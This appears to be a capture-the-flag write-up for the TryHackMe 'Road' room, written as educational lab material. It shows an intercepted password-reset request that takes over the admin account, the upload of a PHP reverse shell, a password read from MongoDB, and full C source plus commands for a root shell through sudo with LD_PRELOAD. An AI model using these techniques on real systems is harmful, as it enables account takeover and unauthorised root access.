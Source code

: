 # Road
[TryHackMe room link](https://tryhackme.com/room/road)

# Informations about the room

> As usual, obtain the user and root flag.

# Open ports 

22 OpenSSH 8.2p1

80 Apache/2.4.41


# Enumeration

Gobuster finds a `v2` directory that contains a login

We create an account and we start to explore the website

It's possible to change the account's profile picture but right now is reserved to admins only

We have a password reset form

The username is not changeble, but we can intercept the request made and change the username to the admin's one

```console
POST /v2/lostpassword.php HTTP/1.1
Host: skycouriers.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------48107381021115354291199842422
Content-Length: 646
Origin: http://skycouriers.com
Connection: close
Referer: http://skycouriers.com/v2/ResetUser.php
Cookie: PHPSESSID=2mmnhv18lmdvgj1661dc2b70fa; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Upgrade-Insecure-Requests: 1

-----------------------------48107381021115354291199842422
Content-Disposition: form-data; name="uname"

admin@sky.thm
-----------------------------48107381021115354291199842422
Content-Disposition: form-data; name="npass"

1234
-----------------------------48107381021115354291199842422
Content-Disposition: form-data; name="cpass"

1234
-----------------------------48107381021115354291199842422
Content-Disposition: form-data; name="ci_csrf_token"


-----------------------------48107381021115354291199842422
Content-Disposition: form-data; name="send"

Submit
-----------------------------48107381021115354291199842422--

```

We now have access to the admin account

We use the profile picture upload functionality and we upload a php reverse shell

# Privilege escalation

We are now user `www-data` 

Linpeas showed us that MongoDB is running


```
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "REDACTED" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

We got `webdeveloper`'s user password


With `sudo -l` we can see that this user can run a binary with `sudo`:

```console
Matching Defaults entries for webdeveloper on sky:                                                                                                                                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD                                                  
                                                                                                                                                                                             
User webdeveloper may run the following commands on sky:                                                                                                                                     
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility  
```

There is also [LD_PRELOAD](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

That is a variable that contains the path of shared libraries or object that will be executed before any other shared library 

We can write code that spawns a root shell when running the `sky_backup_utility` binary

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```console
webdeveloper@sky:/dev/shm$ gcc -fPIC -shared -o test.so test.c -nostartfiles
webdeveloper@sky:/dev/shm$ sudo LD_PRELOAD=./test.so sky_backup_utility 
root@sky:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@sky:/dev/shm# 
```
